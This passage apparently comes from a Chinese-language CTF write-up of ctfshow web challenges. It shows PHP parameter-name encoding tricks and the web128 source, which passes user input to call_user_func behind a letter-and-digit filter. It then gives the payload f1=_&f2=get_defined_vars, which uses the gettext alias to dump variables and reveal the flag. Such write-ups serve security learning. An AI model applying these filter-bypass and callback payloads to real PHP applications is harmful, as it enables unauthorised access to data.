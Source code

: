 payload:

```
+ 空格 [ . 这四个符号相当于_
```

```
ctf show=ilove36d
ctf%20show=ilove36d 空格
ctf%2eshow=ilove36d .
ctf%5bshow=ilove36d [
```

## web128(gettext)

```php
<?php
error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
}
```

gettext拓展的使用

在开启该拓展后 _() 等效于 gettext()

修改php.ini，extension=php_gettext.dll

```php
<?php
echo gettext("phpinfo"); //phpinfo
echo _("phpinfo"); //phpinfo
```

payload

get_defined_vars — 返回由所有已定义变量所组成的数组 这样可以获得 $flag

```
f1=_&f2=get_defined_vars
```

## web129(stripos)
